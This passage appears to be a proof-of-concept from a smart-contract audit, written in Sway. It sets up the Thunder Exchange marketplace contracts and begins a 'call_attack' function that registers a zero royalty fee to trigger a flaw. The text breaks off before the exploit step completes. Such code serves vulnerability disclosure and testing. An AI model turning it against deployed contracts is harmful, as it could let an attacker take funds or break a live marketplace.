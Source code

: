 ```Sway

    let thunder_exch = abi(ThunderExchange, thunder_exchange::CONTRACT_ID);
    thunder_exch.initialize();

    let asset_mngr = abi(AssetManager, asset_manager::CONTRACT_ID);
    asset_mngr.initialize();

    // required for initialize below contracts
    let exchange_contract_id = ContractId::from(thunder_exchange::CONTRACT_ID);

    let asset_manger_contract_id = ContractId::from(asset_manager::CONTRACT_ID);

    let fixed_strategy = abi(ExecutionStrategy, strategy_fixed_price_sale::CONTRACT_ID);
    fixed_strategy.initialize(exchange_contract_id);

    let execution_manager = abi(ExecutionManager, execution_manager::CONTRACT_ID);
    execution_manager.initialize();

    let royalty_manager = abi(RoyaltyManager, royalty_manager::CONTRACT_ID);
    royalty_manager.initialize();

    let pool = abi(Pool, pool::CONTRACT_ID);
    pool.initialize(exchange_contract_id, asset_manger_contract_id);

    let erc1155 = abi(Erc1155, erc1155::CONTRACT_ID);
    erc1155.constructor(Identity::ContractId(ContractId::from(user::CONTRACT_ID)));

    let execution_manager = abi(ExecutionManager, execution_manager::CONTRACT_ID);
    execution_manager.add_strategy(ContractId::from(strategy_fixed_price_sale::CONTRACT_ID));

    let asset_manager = abi(AssetManager, asset_manager::CONTRACT_ID);
    asset_manager.add_asset(AssetId::new(ContractId::from(erc1155::CONTRACT_ID), SubId::zero()));

    thunder_exch.set_execution_manager(ContractId::from(execution_manager::CONTRACT_ID));
    thunder_exch.set_asset_manager(ContractId::from(asset_manager::CONTRACT_ID));
    thunder_exch.set_royalty_manager(ContractId::from(royalty_manager::CONTRACT_ID));

    royalty_manager.set_royalty_fee_limit(1000);
}

fn call_attack() {
    let thunder_exchange = ContractId::from(thunder_exchange::CONTRACT_ID);
    let strategy = ContractId::from(strategy_fixed_price_sale::CONTRACT_ID);
    let erc1155_contract = ContractId::from(erc1155::CONTRACT_ID);

    let erc1155 = abi(Erc1155, erc1155::CONTRACT_ID);
    let royalty_manager = abi(RoyaltyManager, royalty_manager::CONTRACT_ID);

    let user = abi(User, user::CONTRACT_ID);
    let user2 = abi(User, user2::CONTRACT_ID);

    user.register_royalty_info(
        ContractId::from(royalty_manager::CONTRACT_ID), 
        erc1155_contract, 
        Identity::ContractId(ContractId::from(user::CONTRACT_ID)), 
        0 // replace by 1000 or similar and it works
    );

    let sub_id = 0x0000000000000000000000000000000000000000000000000000000000000001;

    erc1155.mint(Identity::ContractId(ContractId::from(user::CONTRACT_ID)), sub_id, 1);

    let payment_asset = AssetId::new(erc1155_contract, SubId::zero());
```